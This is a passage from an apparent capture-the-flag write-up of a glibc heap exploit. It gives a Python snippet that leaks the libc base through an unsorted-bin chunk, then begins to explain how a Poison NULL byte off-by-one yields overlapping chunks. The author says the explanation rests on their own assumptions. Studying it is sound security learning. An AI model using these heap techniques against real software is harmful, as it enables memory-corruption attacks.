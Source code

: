 ```python
# leak libc base
challenge_do_str(str(0x420).encode(), b"a")     # idx 0 : largest size of tcache chunk is 0x410 so we create a chunk with size 0x420
challenge_do_str(str(0x10).encode(), b"a")      # idx 1 : barrier with topchunk
challenge_do_del(b"0")                          # del 0 : => unsorted bin
challenge_do_str(str(0x420).encode(), b"a"*8)   # idx 0 : re allocate the chunk inside unsorted bin to leak main_arena address stores inside it
challenge_do_tok(b"0", b"\x01")                 # exploit `info leak vulnerability`

leaked_libc = io.recvline()[-7:-1] + b"\x00"*2
leaked_libc = u64(leaked_libc)
diff = 0x3ebca0 # distance diff from leaked address with libc base
libc.address = leaked_libc - diff
log.success(f"libc.address: {hex(libc.address)}")
# --- end ---
```

### 2. arbitrary write

exploit [null off-by-one](#vulnerability-2---null-off-by-one) to perform a [Poison NULL byte](https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#poison-null-byte) lead to chunk overlapping.

I have followed the instructions mentioned in the references provided above.\
This is what happened when debugging, I have not read libc source about this so everything below are my assumptions.

So the `Poison NULL byte` make the next chunk 's prev_size field not updated correctly, with `Poison NULL byte`, everything works normally, except for the code calculating the next chunk location: \
![poison](./img/poison.jpg)
